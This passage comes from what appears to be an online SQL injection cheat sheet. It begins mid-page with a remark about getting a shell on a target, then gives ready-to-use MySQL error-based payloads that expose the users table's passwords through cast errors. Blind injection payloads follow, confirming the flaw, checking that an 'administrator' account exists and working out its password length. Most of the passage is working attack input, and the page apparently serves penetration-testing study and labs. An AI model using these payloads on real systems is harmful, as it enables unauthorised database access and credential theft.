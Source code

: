 After execution, we may get a shell of target system.

  

## [Error-based SQLi](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#error-based-sqli)

Reference: [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

We might be able to gather information of the database by leading the error message. We can construct SQLi while checking error messages.  
Here are MySQL injection examples.

```html
' AND 1=CAST((SELECT 1) AS int)-- -
' AND 1=CAST((SELECT password FROM users) AS int)-- -
<!-- Limit only one row if required -->
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)
```

In the example above, we may see the password revealed in the error message.

  

## [Blind SQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#blind-sql)

### [1. Check if the SQL Injection Works](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#1.-check-if-the-sql-injection-works)

```txt
' AND '1'='1
' AND '1'='2
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

### [2. Check if Content Value Exists](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#2.-check-if-content-value-exists)

For example, check if username 'administrator' exists in 'users'

```txt
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

If so, determine the password length

```txt
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
...
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=8)='a
```
